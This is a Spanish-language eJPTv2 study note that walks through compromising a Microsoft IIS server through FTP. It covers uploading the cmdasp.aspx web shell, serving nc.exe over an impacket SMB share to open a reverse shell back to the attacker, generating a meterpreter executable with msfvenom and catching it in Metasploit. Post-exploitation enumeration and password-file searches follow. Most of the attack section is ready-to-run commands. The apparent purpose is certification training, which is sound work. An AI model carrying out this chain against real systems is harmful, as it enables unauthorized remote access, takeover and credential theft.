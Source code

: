 ```yaml
---
layout: default
title: Preparación EJPTv2
---
```


# Microsoft IIS

### 📝 ¡IMPORTANTE!:

 💡 - Si al entrar en el servicio FTP comprobamos que este servicio está vinculado con la web que esté corriendo por el puerto 80 y en el puerto 80 vemos que está corriendo un servicio como Microsoft IIS o parecido, debemos realizar los siguientes pasos:

## 🏴‍☠️ ¿Obtener acceso remoto?

- En nuestra máquina atacante buscamos: find / -name cmdasp.aspx 2>/dev/null que normalmente Kali Linux lo almacena en el siguiente directorio: /usr/share/webshells/aspx/cmdasp.aspx

Una vez tengamos este recurso localizado deberemos COPIAR el mismo a nuestro directorio actual, y digo copiar porque si este recurso lo movemos y después lo eliminamos nos quedaremos sin el. Ahora desde nuestro directorio actual donde nos hemos traído el archivo debemos conectarnos nuevamente al servicio FTP por el puerto 21 y ahora con el comando put subir el archivo.

```bash
put cmdasp.aspx # Subir el archivo que nos habiamos copiado a nuestro directorio.
```

Una vez tengamos el archivo copiado en el servidor FTP víctima lo que debemos hacer el irnos al navegador, apuntar al host objetivo pero añadiendo /cmdasp.aspx

```bash
<host_objetivo>/cmdasp.aspx # Apuntar al host objetivo.
```

Y veremos que se no mostrará un campo en el que podremos introducir comandos para ejecutarlos y desde ese momento habremos conseguido un RCE.

## 🔓 ¿Cómo consigo intrusión a nuestra máquina víctima?

Al igual que hemos hecho antes ahora debemos buscar el archivo nc.exe que suele estar en este directorio: /usr/share/windows-resources/binaries/nc.exe debemos realizar la misma operación que antes y copiar este archivo en nuestra máquina atacante a nuestro directorio de trabajo actual.

```bash
find / -name nc.exe 2>/dev/null # Buscamos este archivo en nuestra máquina atacante y lo copiamos a nuestro directorio de trabajo actual.
```

Una vez que tenemos este archivo localizado y copiado en nuestro directorio actual lo que vamos a hacer es en este mismo directorio levantar un servidor con un recurso compartido para posteriormente desde el host donde tenemos el RCE apuntar a dicho recurso compartido y ejecutarlo para así conseguir una Reverse Shell.

Levantamos un recurso compartido con la herramienta impacket

```bash
impacket-smbserver <nombre_recurso> $(pwd) -smb2support # Con $(pwd) le indicamos que levante el servidor en el directório actual.
```

Una vez que hayamos iniciado el servidor con nuestro recurso compartido, en nuestra máquina atacando vamos a abrir otra pestaña nueva y vamos a ponernos a la escucha con Netcat por el puerto que nosotros queramos para recibir la conexión y entablar la reverse shell.

```bash
sudo nc -nlvp <puerto_escogido> # Escogemos el puerto que queramos Ej: 443,4444,5555, etc.
```

Volvemos a la web donde con cmdasp habíamos conseguido la ejecución remota de comandos, y en la barra donde introduciamos el comando a ejecutar, escribimos lo siguiente:

```bash
\\<ip_nuestra_máquina>\<recurso_compartido>\\nc.exe -e cmd.exe <ip_nuestra_máquina> <puerto_escucha_netcat> # Ejemplo: \\10.10.10.10\exerecurso\nc.exe -e cmd.exe 10.10.10.10 443
```

Si accedemos a la pestaña donde establecimos la escucha con Netcat, podremos verificar que hemos obtenido una reverse shell. A continuación, es fundamental determinar si la intrusión se ha realizado con privilegios de administrador, el usuario con los máximos permisos en el sistema. En caso contrario, será necesario llevar a cabo pasos adicionales para elevar privilegios.

Para ello, convertiremos la sesión obtenida con Netcat en una sesión de Meterpreter, lo que nos permitirá utilizar Metasploit para la escalada de privilegios. El primer paso en este proceso es generar un archivo ejecutable (.exe) que deberá ejecutarse en la máquina víctima con el fin de establecer la sesión de Meterpreter

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<nuestra_ip> LPORT=<puerto_escucha> -f exe > shell.exe # Creamos un archivo .exe malicioso para obtener una sesión meterpreter.
```

¿Cómo llevo este archivo a la máquina víctima?

Pues para realizar este proceso debemos hacer exactamente el mismo procedimiento de antes, levantarnos un servidor con un recurso compartido.

```bash
impacket-smbserver <nombre_recurso> $(pwd) -smb2support # Con $(pwd) le indicamos que levante el servidor en el directório actual.
```


Ahora para poder realizar la descarga del recurso compartido lo que debemos hacer es irnos a un directorio dentro de la máquina víctima que nos permita esa descarga de archivos, que en este caso será el directorio /temp

```bash
copy \\<ip_nuestra_máquina>\\<nombre_recurso>\\shell.exe shell.exe # Accedemos a la carpeta Temp y nos traemos la shell.exe.
```

Antes de ejecutar el archivo .exe nos tenemos que poner a la escucha con metasploit:

```bash
    msfconsole -q # Iniciar metasploit en modo silencioso.
    use multi/handler
    set payload windows/meterpreter/reverse_tcp
    set LHOST <ip_nuestra_máquina>
    set LPORT <puerto_escogido>
    run
```

Una vez que el payload se haya cargado, debemos acceder a la máquina víctima y ejecutar shell.exe para activar el archivo malicioso y establecer la sesión de Meterpreter.

Ahora que la sesión de Meterpreter está activa, el siguiente paso es determinar las acciones a realizar. Podemos explorar el sistema comprometido, escalar privilegios, mantener el acceso o extraer información relevante, según los objetivos del procedimiento.

Ahora os mostraré una serie de comandos que os serán útiles cuando hayamos ganado esa intrusión como el usuario con máximos privilegios.


## 📝 Comandos de interés

```bash
meterpreter > getuid # Verificamos si hemos conseguido privilegios máximos
sessions -l # Ver sesiones activas en metasploit.
sessions -v # Mostrar información detallada de las sesiones.
sessions -L # Listar sesiones y sus rutas.
sessions -k <número_sesión> # Eliminar una sesión específica.
sessions -K # Para eliminar todas las sesiones activas. 
```

## 🔍 Enumeración del Sistema

```bash
systeminfo # Información básica del sistema
hostname # Información básica del sistema
ver # Versión del sistema operativo
winver # Versión del sistema operativo
```

## 🔍Información de Usuario y Privilegios

```bash
whoami /all # Usuario actual y privilegios
net user # Usuario actual y privilegios
net localgroup administrators # Usuario actual y privilegios
whoami /priv # Usuario actual y privilegios
qwinsta # Listado de usuarios conectados
query user # Listado de usuarios conectados
```

## 🔍Enumeración de Red

```bash
ipconfig /all # Configuración de red
route print # Configuración de red
netstat -ano # Configuración de red
arp -a # Configuración de red
net share # Recursos compartidos
net use # Recursos compartidos
```

## 🔍 Búsqueda de Archivos Sensibles

```bash
C:\Users[username]\AppData\

C:\Windows\System32\config\

C:\Program Files\

C:\Windows\Panther\

C:\Windows\repair\
```

```bash
# Búsqueda de archivos sensibles
dir /s /b "C:\\*.txt" "C:\\*.pdf" "C:\\*.doc" "C:\\*.docx"
findstr /si password *.txt *.xml *.ini
dir /s /b /a "C:\\Users\\*pass*.txt" "C:\\Users\\*pass*.xml" "C:\\Users\\*pass*.ini"
```

--- 

<div style="text-align:center; font-size: 0.9em; margint-top: 40px; color: #33ff33;">
    💻 Hecho con 💚 por <strong>Marcela</strong> - 2025
</div>




